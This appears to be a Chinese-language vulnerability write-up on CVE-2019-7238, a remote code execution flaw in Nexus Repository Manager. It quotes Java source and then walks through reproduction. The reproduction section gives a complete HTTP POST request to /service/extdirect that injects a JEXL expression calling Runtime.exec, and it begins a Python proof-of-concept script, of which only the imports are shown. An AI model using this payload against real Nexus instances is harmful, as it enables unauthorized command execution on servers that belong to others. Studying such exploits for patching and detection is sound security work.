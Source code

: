     @Override
      @Guarded(by = STARTED)
      public boolean evaluate(final SelectorConfiguration selectorConfiguration, final VariableSource variableSource)
          throws SelectorEvaluationException
      {
        // 根据传入的 selectorConfiguration 生成对应的 selector 
        // 前面指定了 JexlSelector.TYPE ，这里将生成 JexlSelector
        Selector selector = createSelector(selectorConfiguration);

        try {
          // 调用 selector 的 evaluate 方法
          return selector.evaluate(variableSource);
        }
        catch (Exception e) {
          throw new SelectorEvaluationException("Selector '" + selectorConfiguration.getName() + "' evaluation in error",
              e);
        }
      }

### 漏洞复现

参考官方文档：https://help.sonatype.com/repomanager3/configuration/repository-management\#RepositoryManagement-CreatingaQuery

其对应接口位置如下图![3.jpeg](./resource/(CVE-2019-7238)NexusRepositoryManager远程代码执行/media/rId26.jpg)如果是新搭建的环境，为复现成功，还需要先往现有的Repository添加asset。这样在查询确实存在asset后，才会进一步根据`whereClause`对查询结果asset进行筛选，也才会对`whereClause`进行表达式解析。不过在实际环境中，Repository中早就各种asset了。下面随便选了一个logging.jar上传。![4.jpeg](./resource/(CVE-2019-7238)NexusRepositoryManager远程代码执行/media/rId27.jpg)

    POST /service/extdirect HTTP/1.1
    Host:www.0-sec.org:8081
    User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
    Content-Type: application/json
    Content-Length: 308
    Connection: close

    {"action":"coreui_Component","method":"previewAssets","data":[{"page":1,"start":0,"limit":25,"filter":[{"property":"repositoryName","value":"*"},{"property":"expression","value":"''.class.forName('java.lang.Runtime').getRuntime().exec('calc.exe')"},{"property":"type","value":"jexl"}]}],"type":"rpc","tid":4}

![1.png](./resource/(CVE-2019-7238)NexusRepositoryManager远程代码执行/media/rId28.png)

### poc

    cve-2019-7238.py

![2.png](./resource/(CVE-2019-7238)NexusRepositoryManager远程代码执行/media/rId30.png)

    from requests.packages.urllib3.exceptions import InsecureRequestWarning
    import urllib3
    import requests
    import base64
    import json
    import sys
